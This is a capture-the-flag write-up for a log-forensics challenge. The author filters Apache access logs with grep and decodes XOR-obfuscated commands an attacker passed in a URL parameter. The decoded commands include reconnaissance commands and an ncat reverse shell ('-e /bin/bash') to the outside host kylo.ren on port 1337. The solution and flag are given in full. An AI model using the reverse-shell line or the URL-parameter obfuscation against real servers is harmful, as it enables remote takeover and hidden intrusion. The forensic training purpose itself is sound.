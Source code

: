 ```
 Festive Forensics: The Christmas Incident
250

It's the holiday season, and your e-commerce business, which specializes in selling Christmas gifts, is experiencing a spike in activity. However, the day after Christmas Eve, the infrastructure manager informs you that an attack has targeted the main website, disrupting sales and threatening the security of customer data. You are responsible for analyzing the Apache web server logs to understand what happened.

To do this you must discover the method used by the attacker to camouflage his activity as well as the second and third command executed by the latter in the order of execution.

Flag format: CMCTF{method_cmd1_cmd2}

Flag example: CMCTF{morse_whoami_tree}

Author: t4f3

```
 we are given access.log file
the file is web server(apach2) log file:
each line of this file contain:
10.0.192.157 - - [13/May/2022:00:00:20 +0200] "GET /static/assests/images/space.jpg HTTP/1.1" 404 429 "-" "Mozilla/5.0 (Linux; Android 4.2.2; Nexus 7 Build/JDQ39) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.90 Safari/537.36"

1 - ip address of user who reach the request
2 - the date/time
3 - request method: GET/POST/PUT...
4 - the Path/url
5 - returned code: 200/301/302/400/404/....
6 - size of data returned
7 - referrer http header
8 - user Agent of the browser

if you analyse carefouly, you can realise that  we can see request data in GET method only. Because with request method,
the data are send on url.
 as the log file contain the path/url, we can see those data.
w can not see data send trough Post/PUT . because those data are send in the request body and we don't have request body on the log file.
so to simplify our task as analyser, we will only investigate on GET request.
i use grep to list only GET request.
we also now that data will be send to .php, .html file normaly. .js,.css,.png, .jpeg don't deal request param. so we filter all request made on one of those file
 # cmd 
```bash
grep "GET /[^ ]*\.html?" access.log
```
 the command return all GET request which have url param
the ouput contain a lot of get request with lang=. 
```
n64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.126.100 - - [13/May/2022:23:59:15 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.1.4322)"
10.0.192.157 - - [13/May/2022:23:59:21 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
10.0.126.100 - - [13/May/2022:23:59:37 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/536.30.1 (KHTML, like Gecko) Version/6.0.5 Safari/536.30.1"
10.0.75.29 - - [13/May/2022:23:59:40 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.87.216 - - [13/May/2022:23:59:41 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 4.2.2; Nexus 7 Build/JDQ39) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.90 Safari/537.36"
10.0.126.100 - - [13/May/2022:23:59:44 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
10.0.32.115 - - [13/May/2022:23:59:48 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/536.30.1 (KHTML, like Gecko) Version/6.0.5 Safari/536.30.1"
10.0.126.194 - - [13/May/2022:23:59:52 +0200] "GET /index.html?lang=en HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 4.3; fr-fr; SAMSUNG GT-I9506-ORANGE Build/JSS15J) AppleWebKit/537.36 (KHTML, like Gecko) Version/1.5 Chrome/28.0.1500.94 Mobile Safari/537.36"
10.0.102.204 - - [13/May/2022:23:59:56 +0200] "GET /index.html?lang=fr HTTP/1.1" 200 1366 "-" "Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
```
let filter them

# cmd:
```bash
grep "GET /[^ ]*\.html?" access.log | grep -v "lang"
10.0.181.41 - - [13/May/2022:10:20:54 +0200] "GET /home.html?info=mr!,m` HTTP/1.1" 200 1651 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.181.41 - - [13/May/2022:10:20:55 +0200] "GET /home.html?info=inruo`ld HTTP/1.1" 200 196 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.181.41 - - [13/May/2022:10:20:59 +0200] "GET /home.html?info=qve HTTP/1.1" 200 187 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
10.0.181.41 - - [13/May/2022:10:21:04 +0200] "GET /home.html?info=ob`u!jxmn/sdo!0226!,d!.cho.c`ri HTTP/1.1" 200 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36"
```

interesting:
we have the param info wich contain encrypted data
i copy "mr!,m`"  and use cyberchef magic option with inensive mode and i got  ``ls -al``
![]("../images/cyberchef.png")

# it is xor with key= 1
```
mr!,m` = ls -al
inruo`ld = hostname
qve = pwd
ob`u!jxmn/sdo!0226!,d!.cho.c`ri = ncat kylo.ren 1337 -e /bin/bash
```

# flag : CMCTF{xor_hostname_pwd}

